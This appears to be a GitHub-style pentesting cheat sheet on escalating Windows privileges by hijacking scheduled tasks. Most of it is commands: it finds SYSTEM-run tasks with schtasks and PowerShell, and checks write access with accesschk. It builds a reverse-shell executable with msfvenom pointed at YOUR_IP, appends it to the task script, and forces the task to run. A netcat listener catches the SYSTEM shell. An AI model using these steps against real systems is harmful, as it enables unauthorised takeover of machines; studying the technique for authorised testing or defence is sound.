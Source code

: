 
# **Windows Privilege Escalation via Task Scheduler**

### 🧠 What is Task Scheduler?

**Task Scheduler** is a built-in Windows tool that automatically runs programs or scripts at scheduled times.

Sometimes, a high-privileged user (like SYSTEM or Administrator) sets up a scheduled task — if you can **modify the script it runs**, you can escalate your privileges.

### 🔍 Goal

Find scheduled tasks run by **SYSTEM or Admin**, then check if you can **edit the script** that task runs.

## **Step-by-Step Exploitation**

### **1. Find Vulnerable Scheduled Tasks**

```
schtasks /query /fo LIST /v > tasks.txt
type tasks.txt | findstr /i "system tasktorun"
```

*Alternative (PowerShell):*

```
Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" } | Format-Table -AutoSize
```

🔍 **Look for:**

- Tasks running as **SYSTEM or Administrator**
- Scripts/executables in **writable locations**

### **2. Check File Permissions**

```
accesschk.exe /accepteula -quv "C:\Path\To\TaskScript.ps1"
```

✅ You need **FILE_WRITE_DATA** or **FILE_ALL_ACCESS**

### **3. Create Malicious Payload**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```

Upload to target machine.

### **4. Hijack the Task**

### **Option A: Script Replacement**

```
echo START /B C:\Temp\evil.exe >> "C:\Path\To\TaskScript.bat"
```

### **Option B: DLL Hijacking**

If task uses a program that loads DLLs from writable locations.

### **5. Wait for Execution**

Tasks often run:

- At specific times (check **`schtasks`** output)
- On system events (logon, idle, etc.)

*Force run if you have permissions:*

```
schtasks /run /tn "TaskName"
```

### **6. Catch the Shell**

```
nc -nvlp 4444
```

💥 You should get a shell with the task's privileges (often SYSTEM)!
